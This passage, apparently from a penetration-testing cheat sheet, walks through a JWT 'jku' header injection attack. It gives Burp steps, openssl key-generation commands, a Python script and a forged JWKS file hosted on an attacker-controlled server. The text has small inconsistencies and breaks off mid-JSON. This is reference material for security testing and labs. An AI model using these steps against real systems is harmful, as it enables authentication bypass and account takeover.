 *   \*\***`jku` parameter**

    jku stands for **JWK Set URL**. If the token uses a “**jku**” **Header** claim then **check out the provided URL**. This should point to a URL containing the JWKS file that holds the Public Key for verifying the token. Tamper the token to point the jku value to a web service you can monitor traffic for.

    ```python
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    3. Decode the JWT token and check if it contents jku attribute in Header section
    4. Generate you Public and Private Key pair using below commands:
    		"openssl genrsa -out keypair.pem 2048"
    		"openssl rsa -in keypair.pem -pubout -out publickey.crt"
    		"openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key"
    	8 it will generate Public Key - "publickey.crt" & Private Key - "pkcs8.key"
    5. Use Jwt.io and paste the public key (publicKey.pem) and the private key (attacker.key) in their respective places in the "Decoded" section.
    6. Host the generated certificate locally and modify the jku header parameter accordingly.
    7. Retrieve the jwks.json file from the URL present in the jku header claim
    		"wget <http://example.com:8000/jwks.json>"
    8. Make a Python script "getPublicParams.py":
    		from Crypto.PublicKey import RSA

    		fp = open("publickey.crt", "r")
    		key = RSA.importKey(fp.read())
    		fp.close()
    		print "n:", hex(key.n)
    		print "e:", hex(key.e)
    9. Run python script "python getPublicParams.py"
    10. Update the values of n and e in local jkws.json
    11. Hosting the JWK Set JSON file using repl.it or any server
    12. Manipulate the payload section and copy the generated jwt token from jwt.io
    13. Done, change the JWT token in our request and Forward!
    ```

    ```python
    Part 1 - Upload a malicious JWK Set

    1. Go to the JWT Editor Keys tab in Burp's main tab bar Click New RSA Key.
    2. Replace the contents of the Body section with an empty JWK Set as follows:

    {
        "keys": [

        ]
    }
    3. Paste the JWK into the keys array on the exploit server, then store the exploit. The result should look something like this:

    {
        "keys": [
            {
                "kty": "RSA",
                "e": "AQAB",
                "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
                "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
            }
        ]
    }
    Part 2 - Modify and sign the JWT
    1. In the header of the JWT, replace the current value of the kid parameter with the kid of the JWK that you uploaded to the exploit server.
    2. Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
    {
        "kid": "0653ce73-f728-47e7-825e-10131f2ab908",
